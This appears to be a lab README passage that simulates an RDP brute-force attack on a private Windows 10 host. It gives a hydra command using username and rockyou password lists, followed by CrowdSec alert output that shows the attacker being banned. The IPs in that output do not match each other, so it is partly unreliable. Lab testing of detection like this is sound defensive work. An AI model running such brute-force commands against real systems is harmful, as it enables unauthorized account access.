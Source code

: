 ## Simulated Attack: RDP Brute-Force  

### Target  
- **Windows 10 Workstation**: `192.168.10.20` (RDP port `3389`).  

### Attack Command (Kali Linux)  
```bash
hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt rdp://192.168.10.20

.\cscli.exe alerts list --ip 192.168.10.100
+----+----------------+-----------+---------+----------------------+--------+------------+
| ID |      SCOPE     |  REASON   | ACTION  |        IP            | COUNTRY | AS_NAME    |
+----+----------------+-----------+---------+----------------------+--------+------------+
| 42 | Ip:1.2.3.4     | rdp-bf    | ban     | 192.168.10.30       | US      | Kali Linux |
+----+----------------+-----------+---------+----------------------+--------+------------+
```


![Captura de ecrã 2025-03-16 041244](https://github.com/user-attachments/assets/34501442-2c73-4697-a19d-5d397f631ab2)
